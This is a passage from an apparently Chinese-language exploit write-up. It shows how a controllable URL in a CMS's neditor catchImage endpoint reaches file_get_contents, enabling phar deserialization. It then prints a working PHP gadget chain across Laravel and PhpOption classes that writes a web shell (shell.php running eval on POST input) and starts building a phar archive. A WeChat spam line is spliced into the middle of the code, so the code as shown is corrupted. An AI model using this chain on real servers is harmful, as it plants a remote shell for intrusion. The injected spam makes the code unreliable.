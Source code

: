这里的$url可控，这里imagecreatefromwebp因为isWebp的限制无法进入，所以这里的分支是进入Image::make($data);来，我们在此处下一个断点，然后分析一下前面的代码，我们需要在vps上放一个图片的链接，然后在http://127.0.0.1:9001/admin/neditor/serve/catchImage传参数即可动态调试了

然后一直跟进就可以发现有个file_get_contents函数

![图片](img/f9dbc170dd13afdbaca11b2a22f519a6.png)

至此结束，这里可以phar反序列化了

用上面的链一即可

```
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events = $events;
            $this->event = $event;
        }
    }
    class BroadcastEvent {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }+WX:machinegunjoe666 免费领取资料
    }
}
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver){
            $this->queueResolver = $queueResolver;
        }
    }
}
namespace PhpOption{
    final class LazyOption{
        private $callback;
        private $arguments;
        public function __construct($callback, $arguments)
{
            $this->callback = $callback;
            $this->arguments = $arguments;
        }
    }
}
namespace {
    $d = new PhpOption\LazyOption("file_put_contents", ["shell.php", "<?php phpinfo();eval(\$_POST['cmd']);?>"]);
    $c = new Illuminate\Broadcasting\BroadcastEvent('whoami');
    $b = new Illuminate\Bus\Dispatcher(array($d,"filter"));
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, $c);
    print(urlencode(serialize($a)));

    @unlink("test.phar");
    $phar = new \Phar("test.phar");//后缀名必须为phar
    $phar->startBuffering();
```